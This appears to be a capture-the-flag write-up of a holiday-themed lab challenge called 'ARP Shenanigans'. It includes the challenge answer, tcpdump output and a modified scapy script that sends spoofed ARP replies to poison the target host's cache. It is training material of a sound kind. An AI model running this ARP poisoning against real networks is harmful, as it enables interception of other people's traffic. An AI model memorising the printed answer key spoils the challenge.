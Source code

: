# 9) ARP Shenanigans
Difficulty: 4/5

Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?

ANSWER: Tanta Kringle

## The challenge
Jack Frost has hijacked the host at 10.6.6.35 with some custom malware.
Help the North Pole by getting command line access back to this host.

Read the HELP.md file for information to help you in this endeavor.

Note: The terminal lifetime expires after 30 or more minutes so be 
sure to copy off any essential work you have done as you go.

## The machine info
IP address: 10.6.0.2
MAC address: 02:42:0a:06:00:02

## ARP poisoning
To start we run tcpdump to check what ip is sedning the ARP requests.
```
guest@29847c69ad6a:~$ tcpdump -n 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
03:53:50.538344 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
03:53:51.578334 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```
We take the source IP and MAC addresses and modify the ARP poisoning script including the IP that the target is looking for and we use the scapy script to reply to the request providing the destination IP and the MAC address of the local machine. and we use one of the tmux pane to run the script in the backed.

```
scripts/arp_resp.py
.
Sent 1 packets.
```

### Modified values for ARP poisoning
```
def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src="02:42:0a:06:00:02")
        arp_response = ARP(pdst="10.6.6.35")
        arp_response.op = 2
        arp_response.plen = 4
        arp_response.hwlen = 6
        arp_response.ptype = 0x800
        arp_response.hwtype = 0x1
        arp_response.hwsrc = "02:42:0a:06:00:02"
        arp_response.psrc = "10.6.6.53"
        arp_response.hwdst = "4c:24:57:ab:ed:84"
        arp_response.pdst = "10.6.6.35"
        response = ether_resp/arp_response
        sendp(response, iface="eth0")
```
